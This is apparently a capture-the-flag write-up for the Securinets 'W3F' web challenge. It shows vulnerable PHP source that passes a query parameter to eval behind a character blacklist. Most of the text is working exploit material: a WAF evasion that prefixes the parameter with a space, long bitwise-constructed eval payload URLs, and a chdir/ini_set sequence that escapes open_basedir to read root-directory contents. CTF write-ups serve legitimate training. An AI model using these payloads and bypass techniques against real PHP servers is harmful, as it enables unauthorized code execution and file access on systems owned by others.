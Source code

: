 W3F
---

challenge link: http://web2.q21.ctfsecurinets.com:8081/


waf-config file


![image](https://user-images.githubusercontent.com/61080375/112029098-e2038400-8b5e-11eb-97dd-fd1bfacec876.png)

* we can by pass that ``!@within 1`` by putting space("%20" or "+") in fron of the ``cmd`` parameter 


http://web2.q21.ctfsecurinets.com:8081/?+cmd=123


source code:

```php
<?php

error_reporting(0);
function waf($str){
     for($i=0;$i<=strlen($str)-1;$i++){
        if ((ord($str[$i])<32) or (ord($str[$i])>126)){
            header("HTTP/1.1 403 Forbidden" );
                        exit;
        }
     }
     $blacklist = ['[A-Zb-df-km-uw-z]',' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^','~'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        header("HTTP/1.1 403 Forbidden" );
                        exit;
                        //die('You are forbidden!');
                }
        }
}
if(!isset($_GET['cmd'])){
    show_source(__FILE__);
}else{
        $str = $_GET['cmd'];
       
        waf($str);
        eval('echo '.$str.';');
}
?>

```

**char allowed**:``a e v l 1 2 3 4 5 6 7 8 9 0 @ ! # % ^ & * | ( ) _``

* we can get more charcters by combination of these charcters

![image](https://user-images.githubusercontent.com/61080375/112035180-4f1a1800-8b65-11eb-81b1-bed2baf24019.png)



```
(l|v)           =>  ~
(v|e)           =>   w
((2).(2){0}|a)  =>   s
((2).(2)|(9).(9))  =>  ;;

```
```
(((((4)._%26e_).((((9999**999999).a)%7B2%7D)%7C((0%2F0).a)%7B1%7D).((_)%26e).(((0).a%7C(e%26l))%26((_))).(((((2).a)%7Ca)%7C((8).aa))%26((_).aa)).((((1).(2))%7Cl.(9))%26(_))))).((9).a%26(a%7Cl)).((2).(2)%7C(9).(9))  => $_GET[aa]);;  

```

* we can pass ``eval`` also ,so we can exicute php code

* we can try ``eval(phpinfo());``

```css
http://web2.q21.ctfsecurinets.com:8081/?%20cmd=eval((((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|(0).(0){0})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1})).(((((1/0).(1)){0})%26(((1/0).(1)){2})|((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(4).(4){0}%26((1/0).(0)){2}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0})).((((0).(0){0})%26(((1.5).(0)){1})|(8).(8){0}%26((1/0).(0)){0}|(1).(1){0}%26((0/0).(0)){1})).(((0).(0){0}|(8).(8){0}%26((1/0).(0)){0}|(2).(2){0}%26((1/0).(0)){1}|(1).(1){0}%26((0/0).(0)){1})))
```

![image](https://user-images.githubusercontent.com/61080375/112036748-05cac800-8b67-11eb-8e5d-6336baf0a8ad.png)

![image](https://user-images.githubusercontent.com/61080375/112036858-1f6c0f80-8b67-11eb-9d9e-9edc062715d2.png)


* we can see alot of functions are disabled in that


* we found that ``ini_set()``  is not disabled,which we can use to change some of the settings in php.ini
* there is a ``/images`` dir 
* the flag location is ``/``
* so we can bypass open_basedir and use finfo to read contents
* 
open_basedir : Limit the files that can be accessed by PHP to the specified directory-tree

payload:**ini_set('display_errors', 1);ini_set('display_startup_errors', 1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');new Finfo(0,"/");**

```php
// Current directory: /var/www/html
chdir("images/");
// Current directory: /var/www/html/images
// open_basedir = /var/www/html
ini_set("open_basedir", "..");
// open_basedir = /var/www/html:../
// Current directory: /var/www/html/images
chdir("../");
// Current directory: /var/www/html
chdir("../");
// Current directory: /var/www/
chdir("../");
// Current directory: /var/
chdir("../");
// Current directory: /
ini_set('open_basedir', '/');
//now we can access /
```

```css
http://web2.q21.ctfsecurinets.com:8081/?+cmd=eval(((ev).(al).((8).a%26(l)).((((4)._%26e_).((((9999**999999).a){2})|((0%2F0).a){1}).((_)%26e).(((0).a|(e%26l))%26((_))).(((((2).a)|a)|((8).aa))%26((_).aa)).((((1).(2))|l.(9))%26(_))))).((9).a%26(a|l)).((2).(2)|(9).(9)))&aa=ini_set(%27display_errors%27,%201);ini_set(%27display_startup_errors%27,%201);error_reporting(E_ALL);chdir(%27images%27);ini_set(%27open_basedir%27,%20%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%20%27/%27);new%20Finfo(0,%22/%22);
```



![image](https://user-images.githubusercontent.com/61080375/112038804-4f1c1700-8b69-11eb-90e0-9e368ad0b74f.png)


